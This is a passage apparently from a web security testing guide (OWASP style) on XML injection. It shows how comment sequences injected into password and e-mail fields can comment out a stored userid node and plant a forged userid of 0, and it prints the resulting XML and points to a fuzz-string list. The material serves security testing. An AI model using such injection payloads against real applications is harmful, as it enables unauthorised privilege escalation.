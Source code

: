 
Note that the userid node is defined with cardinality 1. In this case, the attack we have shown before (and other simple attacks) will not work, if the XML document is validated against its DTD before any processing occurs.


However, this problem can be solved, if the tester controls the value of some nodes preceding the offending node (userid, in this example). In fact, the tester can comment out such node, by injecting
a comment start/end sequence:


```
Username: tony
Password: Un6R34kb!e</password><!--
E-mail: --><userid>0</userid><mail>s4tan@hell.com
```

In this case, the final XML database is:

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<users>
	<user>
		<username>gandalf</username>
		<password>!c3</password>
		<userid>0</userid>
		<mail>gandalf@middleearth.com</mail>
	</user>
	<user>
		<username>Stefan0</username>
		<password>w1s3c</password>
		<userid>500</userid>
		<mail>Stefan0@whysec.hmm</mail>
	</user>
	<user>
		<username>tony</username>
		<password>Un6R34kb!e</password><!--</password>
		<userid>500</userid>
		<mail>--><userid>0</userid><mail>s4tan@hell.com</mail>
	</user>
</users>
```


The original *userid* node has been commented out, leaving only the injected one. The document now complies with its DTD rules.<br>


### Tools
* XML Injection Fuzz Strings (from wfuzz tool) - https://wfuzz.googlecode.com/svn/trunk/wordlist/Injections/XML.txt

### References
**Whitepapers**<br>
* [1] Alex Stamos: "Attacking Web Services" - http://www.owasp.org/images/d/d1/AppSec2005DC-Alex_Stamos-Attacking_Web_Services.ppt<br>
* Gregory Steuck, "XXE (Xml eXternal Entity) attack", http://www.securityfocus.com/archive/1/297714

